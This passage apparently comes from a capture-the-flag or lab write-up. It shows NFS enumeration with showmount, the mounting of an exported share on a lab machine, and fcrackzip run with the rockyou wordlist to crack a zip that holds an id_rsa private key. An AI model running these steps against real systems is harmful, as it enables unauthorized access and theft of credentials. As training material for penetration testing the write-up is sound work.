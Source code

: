 Check with the built-in Linux command `showmount` whether there is a network
files share on our victim machine:




```
NAME
       showmount - show mount information for an NFS server

SYNOPSIS
       showmount [ -adehv ] [ --all ] [ --directories ] [ --exports ] [ --help ] [ --version ] [ host ]

DESCRIPTION
       showmount  queries  the  mount daemon on a remote host for information about the state of the NFS server on
       that machine.  With no options showmount lists the set of clients who are mounting  from  that  host.   The
       output from showmount is designed to appear as though it were processed through ``sort -u''.

OPTIONS

(--- snip ---)

       -e or --exports
              Show the NFS server's export list.
(--- snip ---)
```



```
┌──(kali㉿kali)-[~]
└─$ showmount -e 10.0.2.7
Export list for 10.0.2.7:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16

┌──(kali㉿kali)-[~]
└─$ sudo mkdir /mnt/dev

┌──(kali㉿kali)-[~]
└─$ sudo mount -t nfs 10.0.2.7:/srv/nfs /mnt/dev

┌──(kali㉿kali)-[~]
└─$ ls /mnt/dev
save.zip

┌──(kali㉿kali)-[~/Capstone/Dev]
└─$ cp /mnt/dev/save.zip .

┌──(kali㉿kali)-[~/Capstone/Dev]
└─$ unzip save.zip            
Archive:  save.zip
[save.zip] id_rsa password: 
password incorrect--reenter: 
password incorrect--reenter: 
   skipping: id_rsa                  incorrect password
[save.zip] todo.txt password: 

┌──(kali㉿kali)-[~/Capstone/Dev]
└─$ sudo apt install fcrackzip 
(...)

┌──(kali㉿kali)-[~/Capstone/Dev]
└─$ fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip 
found file 'id_rsa', (size cp/uc   1435/  1876, flags 9, chk 2a0d)
```